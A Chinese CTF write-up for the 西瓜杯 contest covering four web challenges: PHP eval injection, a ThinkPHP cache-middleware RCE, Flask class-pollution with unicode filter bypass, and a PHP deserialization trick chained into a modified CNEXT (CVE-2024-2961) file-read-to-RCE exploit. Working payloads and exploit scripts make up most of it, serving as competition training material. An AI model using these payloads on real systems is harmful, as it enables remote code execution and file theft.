# XGCTF_西瓜杯

西瓜杯难度还是有点难度的，来我们做题

## CodeInject

查看代码

```php
<?php

#Author: h1xa

error_reporting(0);
show_source(__FILE__);

eval("var_dump((Object)$_POST[1]);");
```

这里将获取到的数据强制转换为对象类型并且输出这个对象的详细信息

下面提供三种方法

直接拼接执行

```php
1=system("cat /*f*")
```

利用 PHP 的反引号 var_dump之前执行命令

```php
1=`system("cat /*f*")`
```

闭合括号

```php
1=1);system("cat /*f*");//
```

利用 ${} 复杂变量解析

```php
1=${system("cat /*f*")}
```



ctfshow{d359ed49-0a66-4b98-b967-9b86a6bd3afe}

## tpdoor

```php
<?php

namespace app\controller;

use app\BaseController;
use think\facade\Db;

class Index extends BaseController
{
    protected $middleware = ['think\middleware\AllowCrossDomain','think\middleware\CheckRequestCache','think\middleware\LoadLangPack','think\middleware\SessionInit'];
    public function index($isCache = false , $cacheTime = 3600)
    {
        
        if($isCache == true){
            $config = require  __DIR__.'/../../config/route.php';
            $config['request_cache_key'] = $isCache;
            $config['request_cache_expire'] = intval($cacheTime);
            $config['request_cache_except'] = [];
            file_put_contents(__DIR__.'/../../config/route.php', '<?php return '. var_export($config, true). ';');
            return 'cache is enabled';
        }else{
            return 'Welcome ,cache is disabled';
        }
    }
    
}

```

查看index.php，其中$middleware有很多中间件，我们先报错查看框架版本

ThinkPHP 默认通过 `s` 参数来获取 `PATH_INFO`，我们可以通过这个报错



下载源码我们挨个查看中间键，其中



这里进行过滤，我们跟进$fun


若$key存在|，则分隔成两个参数，前面是参数值后面是执行函数

其中参数从isCache得来


```
https://a547fd9c-35b9-410e-8ac3-0b2d66a83bc4.challenge.ctf.show/?isCache=ls /|system
```


成功执行

因为是缓存，只能执行一次，我们重新开个容器执行命令

```
https://a547fd9c-35b9-410e-8ac3-0b2d66a83bc4.challenge.ctf.show/?isCache=nl /0*|system
```

得到flag


ctfshow{2622dece-3338-48d6-bc10-90720859da3e}

## easy_polluted

```python
from flask import Flask, session, redirect, url_for,request,render_template
import os
import hashlib
import json
import re
def generate_random_md5():
    random_string = os.urandom(16)
    md5_hash = hashlib.md5(random_string)

    return md5_hash.hexdigest()
def filter(user_input):
    blacklisted_patterns = ['init', 'global', 'env', 'app', '_', 'string']
    for pattern in blacklisted_patterns:
        if re.search(pattern, user_input, re.IGNORECASE):
            return True
    return False
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)


app = Flask(__name__)
app.secret_key = generate_random_md5()

class evil():
    def __init__(self):
        pass

@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    Evil = evil()
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)
            return "MYBE YOU SHOULD GO /ADMIN TO SEE WHAT HAPPENED"
    return render_template("index.html")

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            try:
                flag_content = open("flag", "rt").read()
            except:
                try:
                    flag_content = open("../flag", "rt").read()
                except:
                    flag_content = "FLAG{test_flag_locally}"
            return render_template("flag.html", flag=flag_content)
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)

```

我们先污染KEY，再污染模版渲染符



```json
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "secret_key":"123",
                "jinja_env":{
                    "variable_start_string":"[#",
                    "variable_end_string":"#]"
                }
            }
        }
    }
}

```

这里过滤了blacklisted_patterns = ['init', 'global', 'env', 'app', '_', 'string']，我们用用Unicode绕过即可

```json
{
    "\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f": {
        "\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f": {
            "\u0061\u0070\u0070": {
                "secret\u005fkey": "123",
                "jinja\u005f\u0065\u006e\u0076": {
                    "\u0076\u0061\u0072\u0069\u0061\u0062\u006c\u0065\u005f\u0073\u0074\u0061\u0072\u0074\u005f\u0073\u0074\u0072\u0069\u006e\u0067": "[#",
                    "\u0076\u0061\u0072\u0069\u0061\u0062\u006c\u0065\u005f\u0065\u006e\u0064\u005f\u0073\u0074\u0072\u0069\u006e\u0067": "#]"
                }
            }
        }
    }
}
```

继续传入usernmae=adminer&password=mine，改变session值



```
session=eyJwYXNzd29yZCI6IjEyMyIsInVzZXJuYW1lIjoiYWRtaW5lciJ9.aUtYTw.FbFl0Bkt5rhynLd8xmQeVbJUGzU
```

访问/admin



ctfshow{e398f402-c11d-4468-9e66-9995d1e423e5}

这里有个非预期，因为使用了`json.loads`

```json
poc={
    "__init__" : {
        "__globals__" :{
             "app" :{
                 "_static_folder":"/"}
        }
    }
}
```

```json
{
    "\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f" : {
        "\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f" :{
             "\u0061\u0070\u0070" :{
                 "\u005f\u0073\u0074\u0061\u0074\u0069\u0063\u005f\u0066\u006f\u006c\u0064\u0065\u0072":"/"}
        }
    }
}
```



ctfshow{e398f402-c11d-4468-9e66-9995d1e423e5}

出题人脚本

```python
import requests
import json

def poc_1(session, url):
    headers = {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Content-Type": "application/json",
        "Host": "fb6a5b21-7b61-461a-8dbd-35997bd62c82.challenge.ctf.show"
    }
    res = session.post(url=url, headers=headers, data=json.dumps({
        r"\u005F\u005F\u0069nit\u005F\u005F": {
            r"\u005F\u005F\u0067lobals\u005F\u005F": {
                r"\u0061pp": {
                    "config": {
                        r"SECRET\u005FKEY": "Dragonkeep"
                    }
                }
            }
        }
    }), verify=False)
    return res.text

def poc_2(session, url):
    headers = {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Content-Type": "application/json",
        "Host": "fb6a5b21-7b61-461a-8dbd-35997bd62c82.challenge.ctf.show"
    }
    res = session.post(url=url, headers=headers, data=json.dumps({
        r"\u005F\u005F\u0069nit\u005F\u005F": {
            r"\u005F\u005F\u0067lobals\u005F\u005F": {
                r"\u0061pp": {
                    r"jinja\u005F\u0065nv": {
                        r"variable\u005Fstart\u005F\u0073tring": "[#",
                        r"variable\u005Fend\u005F\u0073tring": "#]"
                    }
                }
            }
        }
    }), verify=False)
    return res.text

def poc_admin(session, url):
    url = url + "/admin"
    headers = {
        "Host": "fb6a5b21-7b61-461a-8dbd-35997bd62c82.challenge.ctf.show",
        'Cookie': 'session=eyJwYXNzd29yZCI6IkRyYWdvbmtlZXAiLCJ1c2VybmFtZSI6ImFkbWluZXIifQ.ZoPoJw.XozJYtjOp2mah8LEEoPZZzdIjzc'
    }
    res = session.post(url=url, headers=headers, data=json.dumps({
        r"\u005F\u005F\u0069nit\u005F\u005F": {
            r"\u005F\u005F\u0067lobals\u005F\u005F": {
                r"\u0061pp": {
                    r"jinja\u005F\u0065nv": {
                        r"variable\u005Fstart\u005F\u0073tring": "[#",
                        r"variable\u005Fend\u005F\u0073tring": "#]"
                    }
                }
            }
        }
    }), verify=False)
    return res 

if __name__ == '__main__':
    url = "http://fb6a5b21-7b61-461a-8dbd-35997bd62c82.challenge.ctf.show/"
    session = requests.Session()
    result1 = poc_1(session, url)
    print(result1)
    result2 = poc_2(session, url)
    print(result2)
    flag = poc_admin(session, url)
    print(flag.text)


```

自己编脚本

```python
import requests
import json
import urllib3

# 禁用 SSL 警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Target URL
url = "https://ecafef8b-ca58-4907-ad5a-1286528121bb.challenge.ctf.show/"

# Keys escaping (绕过黑名单)
k_class = "\\u005f\\u005fclass\\u005f\\u005f"
k_init = "\\u005f\\u005f\\u0069nit\\u005f\\u005f"
k_globals = "\\u005f\\u005f\\u0067lobals\\u005f\\u005f"
k_app = "\\u0061pp"
k_secret_key = "secret\\u005fkey"
k_jinja_env = "jinja\\u005f\\u0065nv"  # env 被过滤
k_variable_start_string = "variable\\u005fstart\\u005fs\\u0074ring" # string 被过滤
k_variable_end_string = "variable\\u005fend\\u005fs\\u0074ring"
k_cache = "c\u0061che"
k_session = "session"
k_username = "username"
k_password = "password"

# Payload Construction
payload_str = f'''
{{
    "{k_class}": {{
        "{k_init}": {{
            "{k_globals}": {{
                "{k_app}": {{
                    "{k_secret_key}": "123",
                    "{k_jinja_env}": {{
                        "{k_variable_start_string}": "[#",
                        "{k_variable_end_string}": "#]",
                        "{k_cache}": null
                    }}
                }},
                "{k_session}": {{
                    "{k_username}": "adminer",
                    "{k_password}": "123"
                }}
            }}
        }}
    }}
}}
'''

headers = {
    "Content-Type": "text/plain" # 避免 Flask 自动解析为 json 对象，保持 request.data 为原始数据
}

s = requests.Session()

print("Sending exploit...")
# 必须 verify=False 因为远程证书有问题
response = s.post(url, data=payload_str, headers=headers, verify=False)
print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")

# Step 2: Access /admin
print("Accessing /admin...")
response_admin = s.get(url + "admin", verify=False)
print(f"Admin Status Code: {response_admin.status_code}")
print(f"Admin Response Text: {response_admin.text}")
```

## Ezzz_php


```php
<?php 
highlight_file(__FILE__);
error_reporting(0);
function substrstr($data)
{
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start);
}
class read_file{
    public $start;
    public $filename="/etc/passwd";
    public function __construct($start){
        $this->start=$start;
    }
    public function __destruct(){
        if($this->start == "gxngxngxn"){
           echo 'What you are reading is:'.file_get_contents($this->filename);
        }
    }
}
if(isset($_GET['start'])){
    $readfile = new read_file($_GET['start']);
    $read=isset($_GET['read'])?$_GET['read']:"I_want_to_Read_flag";
    if(preg_match("/\[|\]/i", $_GET['read'])){
        die("NONONO!!!");
    }
    $ctf = substrstr($read."[".serialize($readfile)."]");
    unserialize($ctf);
}else{
    echo "Start_Funny_CTF!!!";
} Start_Funny_CTF!!!
```

先start读取

```
?start=gxngxngxn
```


先本地生成一个

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

function substrstr($data)
{
    $start = mb_strpos($data, "[");
    echo $start.'<br>';
    $end = mb_strpos($data, "]");
    echo $end.'<br>';
    return mb_substr($data, $start, $end + 1 - $start);
}

$key = substrstr($_GET[0]."[welcome".$_GET[1]."sdpcsec]");
echo $key;

class read_file{
    public $start;
    public $filename="/etc/passwd";
    public function __construct($start){
        $this->start=$start;
    }
    public function __destruct(){
        if($this->start == "gxngxngxn"){
            echo 'What you are reading is:'.file_get_contents($this->filename);
        }
    }
}
$readfile=new read_file("aaaaaaa");
echo serialize($readfile);

/*O:9:"read_file":2:{s:5:"start";s:7:"aaaaaaa";s:8:"filename";s:11:"/etc/passwd";}
```

由于只有`$read`所以我们要选择前移的参数`%9f`

```php
highlight_file(__FILE__);
error_reporting(0);
function substrstr($data)
{
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start);
}

class read_file
{
    public $start;
    public $filename = "/etc/passwd";

    public function __construct($start)
    {
        $this->start = $start;
    }

    public function __destruct()
    {
        if ($this->start == "gxngxngxn") {
            echo 'What you are reading is:' . file_get_contents($this->filename);
        }
    }
}

if (isset($_GET['start'])) {
    $readfile = new read_file($_GET['start']);
    $read = isset($_GET['read']) ? $_GET['read'] : "I_want_to_Read_flag";
    if (preg_match("/\[|\]/i", $_GET['read'])) {
        die("NONONO!!!");
    }
    $ctf = substrstr($read . "[" . serialize($readfile) . "]");
    unserialize($ctf);
    echo $ctf;
} else {
    echo "Start_Funny_CTF!!!";
}
```

这里可以echo测试，注意，拼接上去的字符串不能有`[`


其中其中需要的%9f即为**后面字符串的长度+1。**


```
?start=aaaaaaaa&read=%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9f%9fO:9:"read_file":2:{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:10:"/etc/hosts";}
```



然后任意文件读取变为RCE，这里是**CVE-2024-2961**

原poc[cnext-exploits/cnext-exploit.py at main · ambionics/cnext-exploits](https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py)

命令执行[vulhub/php/CVE-2024-2961/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/php/CVE-2024-2961/README.zh-cn.md)

其中修改的地方

```php
def send(self, path: str) -> Response:
    payload_file = 'O:9:"read_file":2:{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:' + str(
        len(path)) + ':"' + path + '";}'
    payload = "%9f" * (len(payload_file) + 1) + payload_file.replace("+", "%2b")
    filename_len = "a" * (len(path) + 10)
    url = self.url + f"?start={filename_len}&read={payload}"
    return self.session.get(url)

def download(self, path: str) -> bytes:
    """Returns the contents of a remote file.
    """
    path = f"php://filter/convert.base64-encode/resource={path}"
    response = self.send(path)
    data = response.re.search(b"What you are reading is:(.*)", flags=re.S).group(1)
    return base64.decode(data)
```

运行：

~~~python
#!/usr/bin/env python3
#
# CNEXT: PHP file-read to RCE
# Date: 2024-05-27
# Author: Charles FOL @cfreal_ (LEXFO/AMBIONICS)
#
# TODO Parse LIBC to know if patched
#
# INFORMATIONS
#
# To use, implement the Remote class, which tells the exploit how to send the payload.
#
# REQUIREMENTS
#
# Requires ten: https://github.com/cfreal/ten
#

from __future__ import annotations

import base64
import zlib
from dataclasses import dataclass

from pwn import *
from requests.exceptions import ChunkedEncodingError, ConnectionError
from ten import *

HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")


class Remote:
    """A helper class to send the payload and download files.

    The logic of the exploit is always the same, but the exploit needs to know how to
    download files (/proc/self/maps and libc) and how to send the payload.

    The code here serves as an example that attacks a page that looks like:

    ```php
    <?php

    $data = file_get_contents($_POST['file']);
    echo "File contents: $data";
    ```

    Tweak it to fit your target, and start the exploit.
    """

    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """
        payload_file = 'O:9:"read_file":2:{s:5:"start";s:9:"gxngxngxn";s:8:"filename";s:' + str(len(path)) + ':"' + path + '";}'
        payload = "%9f" * (len(payload_file) + 1) + payload_file.replace("+","%2b")
        filename_len = "a" * (len(path) + 10)
        url = self.url+f"?start={filename_len}&read={payload}"
        return self.session.get(url)

    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        response = self.send(path)
        data = response.re.search(b"What you are reading is:(.*)", flags=re.S).group(1)
        return base64.decode(data)


@entry
@arg("url", "Target URL")
@arg("command", "Command to run on the system; limited to 0x140 bytes")
@arg("sleep_time", "Time to sleep to assert that the exploit worked. By default, 1.")
@arg("heap", "Address of the main zend_mm_heap structure.")
@arg(
    "pad",
    "Number of 0x100 chunks to pad with. If the website makes a lot of heap "
    "operations with this size, increase this. Defaults to 20.",
)
@dataclass
class Exploit:
    """CNEXT exploit: RCE using a file read primitive in PHP."""

    url: str
    command: str
    sleep: int = 1
    heap: str = None
    pad: int = 20

    def __post_init__(self):
        self.remote = Remote(self.url)
        self.log = logger("EXPLOIT")
        self.info = {}
        self.heap = self.heap and int(self.heap, 16)

    def check_vulnerable(self) -> None:
        """Checks whether the target is reachable and properly allows for the various
        wrappers and filters that the exploit needs.
        """

        def safe_download(path: str) -> bytes:
            try:
                return self.remote.download(path)
            except ConnectionError:
                failure("Target not [b]reachable[/] ?")

        def check_token(text: str, path: str) -> bool:
            result = safe_download(path)
            return text.encode() == result

        text = tf.random.string(50).encode()
        base64 = b64(text, misalign=True).decode()
        path = f"data:text/plain;base64,{base64}"

        result = safe_download(path)

        if text not in result:
            msg_failure("Remote.download did not return the test string")
            print("--------------------")
            print(f"Expected test string: {text}")
            print(f"Got: {result}")
            print("--------------------")
            failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")

        msg_info("The [i]data://[/] wrapper works")

        text = tf.random.string(50)
        base64 = b64(text.encode(), misalign=True).decode()
        path = f"php://filter//resource=data:text/plain;base64,{base64}"
        if not check_token(text, path):
            failure("The [i]php://filter/[/] wrapper does not work")

        msg_info("The [i]php://filter/[/] wrapper works")

        text = tf.random.string(50)
        base64 = b64(compress(text.encode()), misalign=True).decode()
        path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"

        if not check_token(text, path):
            failure("The [i]zlib[/] extension is not enabled")

        msg_info("The [i]zlib[/] extension is enabled")

        msg_success("Exploit preconditions are satisfied")

    def get_file(self, path: str) -> bytes:
        with msg_status(f"Downloading [i]{path}[/]..."):
            return self.remote.download(path)

    def get_regions(self) -> list[Region]:
        """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
        maps = self.get_file("/proc/self/maps")
        maps = maps.decode()
        PATTERN = re.compile(
            r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
        )
        regions = []
        for region in table.split(maps, strip=True):
            if match := PATTERN.match(region):
                start = int(match.group(1), 16)
                stop = int(match.group(2), 16)
                permissions = match.group(3)
                path = match.group(4)
                if "/" in path or "[" in path:
                    path = path.rsplit(" ", 1)[-1]
                else:
                    path = ""
                current = Region(start, stop, permissions, path)
                regions.append(current)
            else:
                print(maps)
                failure("Unable to parse memory mappings")

        self.log.info(f"Got {len(regions)} memory regions")

        return regions

    def get_symbols_and_addresses(self) -> None:
        """Obtains useful symbols and addresses from the file read primitive."""
        regions = self.get_regions()

        LIBC_FILE = "/dev/shm/cnext-libc"

        # PHP's heap

        self.info["heap"] = self.heap or self.find_main_heap(regions)

        # Libc

        libc = self._get_region(regions, "libc-", "libc.so")

        self.download_file(libc.path, LIBC_FILE)

        self.info["libc"] = ELF(LIBC_FILE, checksec=False)
        self.info["libc"].address = libc.start

    def _get_region(self, regions: list[Region], *names: str) -> Region:
        """Returns the first region whose name matches one of the given names."""
        for region in regions:
            if any(name in region.path for name in names):
                break
        else:
            failure("Unable to locate region")

        return region

    def download_file(self, remote_path: str, local_path: str) -> None:
        """Downloads `remote_path` to `local_path`"""
        data = self.get_file(remote_path)
        Path(local_path).write(data)

    def find_main_heap(self, regions: list[Region]) -> Region:
        # Any anonymous RW region with a size superior to the base heap size is a
        # candidate. The heap is at the bottom of the region.
        heaps = [
            region.stop - HEAP_SIZE + 0x40
            for region in reversed(regions)
            if region.permissions == "rw-p"
            and region.size >= HEAP_SIZE
            and region.stop & (HEAP_SIZE - 1) == 0
            and region.path == ""
        ]

        if not heaps:
            failure("Unable to find PHP's main heap in memory")

        first = heaps[0]

        if len(heaps) > 1:
            heaps = ", ".join(map(hex, heaps))
            msg_info(f"Potential heaps: [i]{heaps}[/] (using first)")
        else:
            msg_info(f"Using [i]{hex(first)}[/] as heap")

        return first

    def run(self) -> None:
        self.check_vulnerable()
        self.get_symbols_and_addresses()
        self.exploit()

    def build_exploit_path(self) -> str:
        """

        On each step of the exploit, a filter will process each chunk one after the
        other. Processing generally involves making some kind of operation either
        on the chunk or in a destination chunk of the same size. Each operation is
        applied on every single chunk; you cannot make PHP apply iconv on the first 10
        chunks and leave the rest in place. That's where the difficulties come from.

        Keep in mind that we know the address of the main heap, and the libraries.
        ASLR/PIE do not matter here.

        The idea is to use the bug to make the freelist for chunks of size 0x100 point
        lower. For instance, we have the following free list:

        ... -> 0x7fffAABBCC900 -> 0x7fffAABBCCA00 -> 0x7fffAABBCCB00

        By triggering the bug from chunk ..900, we get:

        ... -> 0x7fffAABBCCA00 -> 0x7fffAABBCCB48 -> ???

        That's step 3.

        Now, in order to control the free list, and make it point whereever we want,
        we need to have previously put a pointer at address 0x7fffAABBCCB48. To do so,
        we'd have to have allocated 0x7fffAABBCCB00 and set our pointer at offset 0x48.
        That's step 2.

        Now, if we were to perform step2 an then step3 without anything else, we'd have
        a problem: after step2 has been processed, the free list goes bottom-up, like:

        0x7fffAABBCCB00 -> 0x7fffAABBCCA00 -> 0x7fffAABBCC900

        We need to go the other way around. That's why we have step 1: it just allocates
        chunks. When they get freed, they reverse the free list. Now step2 allocates in
        reverse order, and therefore after step2, chunks are in the correct order.

        Another problem comes up.

        To trigger the overflow in step3, we convert from UTF-8 to ISO-2022-CN-EXT.
        Since step2 creates chunks that contain pointers and pointers are generally not
        UTF-8, we cannot afford to have that conversion happen on the chunks of step2.
        To avoid this, we put the chunks in step2 at the very end of the chain, and
        prefix them with `0\n`. When dechunked (right before the iconv), they will
        "disappear" from the chain, preserving them from the character set conversion
        and saving us from an unwanted processing error that would stop the processing
        chain.

        After step3 we have a corrupted freelist with an arbitrary pointer into it. We
        don't know the precise layout of the heap, but we know that at the top of the
        heap resides a zend_mm_heap structure. We overwrite this structure in two ways.
        Its free_slot[] array contains a pointer to each free list. By overwriting it,
